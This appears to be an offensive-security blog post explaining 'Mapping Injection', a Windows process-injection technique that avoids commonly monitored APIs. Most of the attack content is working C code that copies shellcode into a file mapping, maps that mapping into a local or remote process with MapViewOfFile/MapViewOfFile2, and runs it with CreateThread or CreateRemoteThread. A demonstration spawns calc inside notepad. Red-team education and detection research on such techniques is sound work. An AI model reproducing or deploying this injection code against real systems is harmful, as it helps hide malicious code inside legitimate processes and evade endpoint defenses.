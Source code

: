 # Mapping Injection

## Theory

Mapping Injection is a technique of Process injection that avoids the use of common monitored Windows APIs like `VirtualAlloc` , `WriteProcessMemory` , `CreateRemoteThread` (Although I have used it here for demonstration purpose, there are a lot better alternatives). First we create a file mapping using the `CreateFileMapping` api and then use `MapViewOfFile` api to map that into our process'es address space and then use `memcpy` to copy the shellcode to that address and finally create a thread to run it. At the end, we can use `UnmapViewOfFile` to unmap the mapped view of file.

For doing the same in another Process, we can use `MapViewOfFile2` api (after mapping & copying the shellcode to our address) and specify a handle to the remote process. The important thing here is that the handle should have `PROCESS_VM_OPERATION` access.

## Local Mapping Injection

Okay so as we know the very first thing is to create the file mapping. We can use `CreateFileMappingW` to do so. We have to give `INVALID_HANDLE_VALUE` if we want to have a page file with custom size.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```c
hFileObj = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, szCode, NULL);
```

Then we can map it using `MapViewOfFile`. As stated in MSDN

> To have a file with executable permissions, an application must call [CreateFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga) with either PAGE\_EXECUTE\_READWRITE or PAGE\_EXECUTE\_READ, and then call MapViewOfFile with FILE\_MAP\_EXECUTE | FILE\_MAP\_WRITE or FILE\_MAP\_EXECUTE | FILE\_MAP\_READ.

```c
pMap = MapViewOfFile(hFileObj, FILE_MAP_EXECUTE | FILE_MAP_WRITE, NULL, NULL, szCode);
```

Finally we can just copy the shellcode to that address and create a thread to run our shellcode.

```c
memcpy(pMap, shellcode, szCode);
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMap, 0, 0, NULL);
WaitForSingleObject(GetCurrentProcess(), 2000);
```

<figure><img src="../../.gitbook/assets/local_mapping.gif" alt=""><figcaption></figcaption></figure>

## Remote Mapping Injection

For Remote Mapping, we still have to first create the mapping locally and copy the shellcode to the address. This is done in order to avoid using functions like `WriteProcessMemory`. Another approach would be to map the file remotely first but then we might have to use ^ for writing shellcode to that address since it is not in our process. Thus, after we have copied the shellcode to our map view, we can just map the same file to the remote process and create a remote thread which will run it.

<pre class="language-c"><code class="lang-c">hProcess = OpenProcess(PROCESS_VM_OPERATION, FALSE, pid); 
hFileMap = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, szCode, NULL);
pMapLocal = MapViewOfFile(hFileMap, FILE_MAP_WRITE, 0, 0, szCode);
memcpy(pMapLocal, shellcode, szCode);
// note that MapViewOfFile2 requires you to link onecore.lib
pMapRemote = MapViewOfFile2(hFileMap, hProcess, NULL, NULL, szCode, NULL, PAGE_EXECUTE_READWRITE);
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pMapRemote, NULL, 0, NULL);
<strong>WaitForSingleObject(hThread, 5000);
</strong></code></pre>

All in all this is what we are doing, as I mentioned earlier, I have used `CreateRemoteThread` just for demonstration, and actually there are various other methods to execute the code. We can see calc spawning when I run it against notepad.

<figure><img src="../../.gitbook/assets/remote_mapping.gif" alt=""><figcaption></figcaption></figure>

That's it for now, there's also some other variations to this technique which I want to cover, I'll do those next time. If you liked it, pls do let me know on [twitter](https://x.com/ZzN1NJ4). Thank you.

